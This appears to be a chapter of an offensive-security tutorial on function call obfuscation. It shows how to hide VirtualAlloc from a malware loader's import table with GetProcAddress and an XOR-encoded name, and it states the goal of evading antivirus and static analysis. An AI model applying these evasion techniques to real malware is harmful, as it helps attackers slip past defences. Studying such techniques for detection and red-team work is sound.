 # 04 - evasion: function call obfuscation

In this example we will study function call obfuscation. So what is this? Why malware developers and red teamers need to learn it?    

Let's consider our `hack.exe` simple malware. Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -w
```

![img](./img/2024-05-03_10-31.png)    

And the run this command (checking IAT):    

```bash
objdump -x -D hack.exe | less
```

![img](./img/2024-05-03_10-33.png)    

and as you can see our program is uses `KERNEL32.dll` and import all this functions:   

```bash
CreateThread
...
...
VirtualAlloc
VirtualProtect
...
```

and some of them are used in our code:     

```cpp
my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

So let’s create a global variable called `VirtualAlloc`, but it has to be a pointer `pVirtualAlloc` this variable will store the address to `VirtualAlloc`:     

```cpp
LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
```

And now we need to get this address via `GetProcAddress`, and we need to change the call `VirtualAlloc` to `pVirtualAlloc`:     

```cpp
HMODULE kernel = GetModuleHandle("kernel32.dll");
pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)"VirtualAlloc");
payload_mem = pVirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

Then let's go to compile it. And see again import address table:   

```bash
objdump -x -D hack2.exe | less
```

![img](./img/2024-05-03_10-38.png)    

So no `VirtualAlloc` in import address table. Looks good. But, there is a caveat. When we try to extract all the strings from the our binary we will see that `VirtualAlloc` string is still there. Let's do it. run:    

```bash
stings -n 8 hack2.exe
```

![img](./img/2024-05-03_10-40.png)    

as you can see it is here. The reason is that we are using the stream in cleartext when we are calling `GetProcAddress`.     

So what we can do about it?     
The way is we can remove that. We can used XOR function for encrypt/decrypt, we used before, so let's do that. Firstly, add XOR function to our `hack2.c` malware source code:    

```cpp
char secretKey[] = "secret";

// encryption / decryption XOR function
void deXOR(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}
```

For that we will need encryption key and some string. And let's say string as `cVirtualAlloc` and modify our code:    

```cpp
unsigned char cVirtualAlloc[] = { 0x25, 0xc, 0x11, 0x6, 0x10, 0x15, 0x1f, 0x24, 0xf, 0x1e, 0xa, 0x17 };
//...
pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)cVirtualAlloc);
```

python script to XOR encrypt our function name:     

```bash
python3 xor.py
```

![img](./img/2024-05-03_10-46.png)     

Finally, compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -w
```

![img](./img/2024-05-03_10-47.png)     

And run `strings` again:    

```bash
strings -n 8 hack2.exe
```

![img](./img/2024-05-03_10-49.png)    

and as you can see no `VirtualAlloc` in strings check. This is how you can actually obfuscate any function in your code. It can be `VirtualProtect` or `RtlMoveMemory`, etc.    

Checking correctness:    

```powershell
.\hack2.exe
```

![img](./img/2024-05-03_10-50.png)    

As we can see everything is worked as expected.    

Other functions can be obfuscated to reduce the number of AV engines that detect our malware and for full bypass static analysis. For better result we can combine payload encryption with random key and obfuscate functions with another keys etc.     

